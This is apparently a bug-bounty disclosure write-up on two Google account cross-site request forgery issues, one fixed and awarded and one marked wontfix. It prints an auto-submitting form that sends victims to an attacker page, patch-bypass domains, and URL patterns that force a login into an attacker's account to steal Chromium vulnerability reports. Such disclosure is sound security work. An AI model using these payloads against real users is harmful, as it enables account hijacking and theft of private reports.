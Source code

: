 ```yaml
---
title: Google Accounts/GAIA XSRF
---
```


# Go Incognito XSRF (Fixed, Awarded $3000)

`SignOutOptions` has a feature where it will open an Android incognito window to a custom URL that does not inherit the sandbox or close the file picker dialog (spoof)

```js
Frame = document.createElement('iframe');
Frame.sandbox = 'allow-popups allow-forms allow-scripts';
```

```html
<form action="https://accounts.google.com/SignOutOptions?continue=https://www.google.com/amp/a/s/ndev.tk/evil.html" method="post">
  <input type="submit" name="incognito" value="1" />
</form>
<script>
  document.querySelector("input").click();
</script>
```

- [sandbox escape video](https://drive.google.com/open?id=1SOLqCApjT__KfW45MT2MCVYJGO_iHHnY&authuser=0)  
- [filepicker spoof video](https://drive.google.com/open?id=1xV1RwHDIvJvjoaTxrwRPnV85DSDFlzAi&authuser=0)


The first patch used `google_util::IsGoogleAssociatedDomainUrl` thats bypassable since Google hosts user generated content on `gstatic.com` (via XSS), `storage.googleapis.com` (Storage buckets) and `googleusercontent.com` (`ip.bc.googleusercontent.com`), I did not verify if insecure `http://` pages work.

# Login XSRF (WONTFIX/INFEASIBLE)

Both issue trackers don't verify if the victim initiated the login which allows the attacker to force a login to their account, No `document.cookie =` needed :)  
<https://issues.chromium.org/accounts/SetOSID> (Via: `https://accounts.google.com/ServiceLogin?osid=1&continue=https%3A%2F%2Fissues.chromium.org`)  
<https://bugs.chromium.org/_ah/conflogin?state=> (Via: `https://uc.appengine.google.com/_ah/conflogin?state=`)  
Some more examples...

- `https://accounts.googlesource.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://chromium.googlesource.com/login/angle/?pli%3D1%26authuser%3D1`
- `https://accounts.blogger.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://www.blogger.com/home?pli%3D1%26authuser%3D1`
- `https://flash.android.com/accounts/SetOSID?authuser=0&continue=https://flash.android.com/?pli%3D1%26authuser%3D0&osidt=<Token>`

Worth mentioning since the token is not connected to a session, browser extensions with the Tabs permission but no host permission gain account takeover; it's a feature.

Once the victim is on the attackers account any security issues reported via the standard <https://bugs.chromium.org/p/chromium/issues/wizard> page (ideally bookmarked) will be sent to the attackers email and if all goes well there be able to steal that 0day and get the reward (very unlikely) from Chromium VRP!

They are aware of the fact that login XSRF is possible in some cases. Unfortunately, they have a clear plan to fix it at this time.
